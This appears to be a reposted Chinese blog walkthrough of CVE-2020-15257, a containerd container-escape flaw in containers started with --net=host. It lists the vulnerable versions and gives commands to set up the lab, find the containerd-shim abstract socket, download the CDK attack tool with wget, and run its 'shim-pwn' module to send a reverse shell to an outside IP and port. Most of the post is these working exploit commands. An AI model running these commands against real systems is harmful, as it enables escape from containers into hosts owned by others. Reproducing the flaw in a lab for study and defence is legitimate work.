

# Docker 容器逃逸漏洞 (CVE-2020-15257) - Bypass - 博客园

> 原文：[`www.cnblogs.com/xiaozi/p/14193869.html`](https://www.cnblogs.com/xiaozi/p/14193869.html)

**漏洞简述：**

当在 docker 使用–net=host 参数启动，与宿主机共享 net namespace 时，容器中的攻击者可以绕过访问权限访问 containerd 的控制 API 进而导致权限提升。

**漏洞利用：**

（1）安装有漏洞的 containerd 版本，影响版本 containerd< 1.3.9&&containerd < 1.4.3

```
#列出仓库中可用的版本，安装特定版本的 Docker Engine-Community
apt-cache madison docker-ce
sudo apt-get install docker-ce=<VERSION_STRING> docker-ce-cli=<VERSION_STRING> containerd.io=<VERSION_STRING>
```



（2）通过`--net=host` 作为启动参数来运行一个容器：

```
sudo docker run -it --net=host ubuntu:18.04 /bin/bash
```

在容器内执行 `cat /proc/net/unix|grep -a "containerd-shim"` 可看到抽象命名空间 Unix 域套接字.


（3）通过 CDK 执行 exp，成功反弹 shell，实现容器逃逸。

```
wget https://github.com/Xyntax/CDK/releases/download/0.1.6/cdk_v0.1.6_release.tar.gz
tar -zxvf cdk_v0.1.6_release.tar.gz 
./cdk_linux_amd64 run shim-pwn 10.1.1.209 12345
```

